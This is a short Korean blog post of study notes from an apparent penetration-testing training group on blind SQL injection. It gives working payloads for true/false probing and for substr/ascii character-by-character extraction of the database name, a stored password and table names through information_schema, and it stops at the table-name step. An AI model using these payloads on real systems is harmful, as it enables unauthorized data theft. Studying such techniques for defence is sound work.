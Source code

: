 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[WEB HACKING] Blind SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


3. Blind SQL Injection
    1. 참과 거짓의 응답 차이로 알아낸다.

---

Blind SQL Injection
1. normaltic' and ('1' = '1') and '1' = '1
2. normaltic' and (select pass from member where id = 'normaltic') and '1' = '1

1. sql injection의 포인트를 찾는 것
normaltic' and '1' = '1
normaltic' and '1' = '2
-> 참과 거짓 찾기
-> 조건 ㅈㄴ 후하네 ㅋㅋ
2. select문구 사용가능한지 확인하기
normaltic' and ('1' = '1') and '1' = '1
normaltic' and ('1' = '2') and '1' = '1
normaltic' and ((select 'test') = 'test') and '1' = '1
3. 공격 format
normaltic' and (조건) and '1' = '1

substr('test',1,1) -> t # substr(string, idx, range)
substr((select 'test'), 1, 1) = 't'
normaltic' and (substr((select 'test'), 1, 1) = 't') and '1' = '1

ascii()
ascii(substr((select 'test'), 1, 1)) > 0 # 데이터가 존재하는 지 확인
normaltic' and (ascii(substr((select 'test'), 1, 1)) > 0) and '1' = '1
4. DB
select database()
normaltic' and (ascii(substr((select database()), 1, 1)) > 0) and '1' = '1
normaltic' and (ascii(substr((select database()), 2, 1)) > 0) and '1' = '1
5. Table
select table_name from information_schema.tables where table_schema = '' limit 0, 1

* 글자 개수가 몇 개인지 세는 함수